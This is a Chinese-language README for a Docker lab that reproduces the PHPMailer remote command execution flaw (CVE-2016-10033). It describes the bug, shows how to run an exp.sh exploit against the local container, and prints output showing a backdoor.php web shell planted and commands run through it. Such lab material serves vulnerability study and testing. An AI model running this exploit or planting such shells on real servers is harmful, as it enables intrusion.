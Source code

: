 ## PHPMailer < 5.2.18 远程命令执行漏洞环境 (CVE-2016-10033)

### 说明

本环境基于 [PHPMailer < 5.2.18 Remote Code Execution exploit and vulnerable container](https://github.com/opsxcq/exploit-CVE-2016-10033) 修改

### 漏洞信息

 PHPMailer 是一个强大的 PHP 编写的邮件发送类，使用它可以更加便捷的发送邮件，并且还能发送附件和 HTML 格式的邮件，同时还能使用 SMTP 服务器来发送邮件。PHPMailer(版本 < 5.2.18)存在远程命令执行漏洞，攻击者只需巧妙地构造出一个恶意邮箱地址，即可写入任意文件，造成远程命令执行的危害。漏洞发现者：Dawid Golunski

### 影响版本

PHPMailer < 5.2.18

### 镜像信息

类型 | 值
:-:|:-:
网站物理路径 | `/var/www/html/`


### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:p_phpmailer_1
 ```

2. 启动环境

 ```
$ docker run -d -p 8000:80 medicean/vulapps:p_phpmailer_1
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 

 访问 http://127.0.0.1:8000 看到表单界面代表启动成功

### Exp

Exp 使用方法：

```
$ ./exp.sh host:port
```

假设容器启动后访问的地址为：http://127.0.0.1:8000/

```
$ ./exp.sh 127.0.0.1:8000
```

执行完后耐心等待一会（比较慢，大概2分钟以内），就会向服务器中写入 backdoor.php 文件(写入的物理路径见`exp.sh`,默认写入到`/var/www/html/`目录下)，然后就看到如下输出：

```
➜ ./exp.sh 127.0.0.1:8000
[+] CVE-2016-10033 exploit by opsxcq
[+] Exploiting 127.0.0.1:8000
[+] Target exploited, acessing shell at http://127.0.0.1:8000/backdoor.php
[+] Checking if the backdoor was created on target system
[+] Backdoor.php found on remote system
[+] Running whoami
www-data
RemoteShell> id
[+] Running id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### 相关链接

* [PHPMailer < 5.2.18 Remote Code Execution](https://legalhackers.com/advisories/PHPMailer-Exploit-Remote-Code-Exec-CVE-2016-10033-Vuln.html)
* [PHPMailer 命令执行漏洞（CVE-2016-10033）分析——长亭科技](https://blog.chaitin.cn/phpmailer-cve-2016-10033/)
* [PHPMailer < 5.2.18 Remote Code Execution exploit and vulnerable container](https://github.com/opsxcq/exploit-CVE-2016-10033)
